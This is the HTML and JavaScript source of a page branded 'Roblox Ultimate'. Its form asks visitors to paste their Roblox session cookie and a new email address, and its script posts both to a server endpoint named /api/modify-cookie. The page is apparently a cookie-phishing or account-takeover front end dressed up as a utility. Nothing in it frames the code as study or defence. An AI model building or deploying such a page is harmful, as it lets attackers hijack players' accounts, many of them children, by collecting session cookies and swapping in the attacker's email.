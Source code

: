 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Roblox Ultimate</title>
</head>
<body>
    <h1>Roblox Ultimate </h1>
    <form id="cookieForm">
        <label for="cookie">Enter your Cookie:</label>
        <textarea id="cookie" name="cookie" required></textarea><br><br>
        
        <label for="email">Enter New Email:</label>
        <textarea id="email" name="email" required></textarea><br><br>
        
        <button type="submit">Submit</button>
    </form>
    <div id="response"></div>
    
    <script>
        document.getElementById('cookieForm').addEventListener('submit', function(event) {
            event.preventDefault();
            const cookie = document.getElementById('cookie').value;
            const email = document.getElementById('email').value;
            
            fetch('/api/modify-cookie', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ cookie: cookie, email: email })
            })
            .then(response => response.json())
            .then(data => {
                if (data.modifiedCookie) {
                    document.getElementById('response').innerText = "Cookie and email modified successfully!";
                } else {
                    document.getElementById('response').innerText = "Error modifying cookie or email.";
                }
            })
            .catch(error => {
                document.getElementById('response').innerText = "An error occurred.";
            });
        });
    </script>
</body>
</html>
